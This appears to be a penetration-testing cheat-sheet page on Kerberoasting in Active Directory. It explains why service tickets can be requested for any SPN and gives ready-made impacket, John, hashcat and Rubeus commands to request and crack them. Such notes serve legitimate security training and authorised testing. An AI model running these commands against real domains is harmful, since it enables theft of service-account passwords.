 ```yaml
---
label: Kerberoasting
---
```


# Kerberoasting

When a user wants to access a resource hosted by a _Service Principal Name_ (SPN), the client requests a TGS (service ticket) that is generated by the DC. The TGS is then decrypted and validated by the application server, since it is encrypted via the password hash of the SPN. When requesting the TGS from the DC, no checks are performed to confirm whether the user has any permissions to access the service. These checks are performed as a second step only when connecting to the service itself. This means that we are able to request for TGS to any domain service (SPN), regardless of the actual permissions.

The TGS is encrypted using the SPN's password hash. Having TGS, we can try to crack it offline and recover the service account password. This is the _Kerberoasting_ attack.

Linux:

```bash
# Get list of kerberoastable users from DC
impacket-GetUserSPNs $domain/$user:$pass -dc-ip $dc_ip

# Request TGS for kerberoastable users
impacket-GetUserSPNs $domain/$user:$pass -dc-ip $dc_ip -request

# Crack TGS using John
john --format=krb5tgs --wordlist=$wordlist $tgs_file

# Crack TGS using HashCat
hashcat -m 13100 $file $dictionary
```

> **IMPORTANT**: If `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" the synchronization of the time of the Kali machine with the DC is required. We can use `ntpdate` or `rdate` to do so.

Windows:

```powershell
# Get kerberoastable users and save to file
.\Rubeus.exe kerberoast /outfile:$file
```
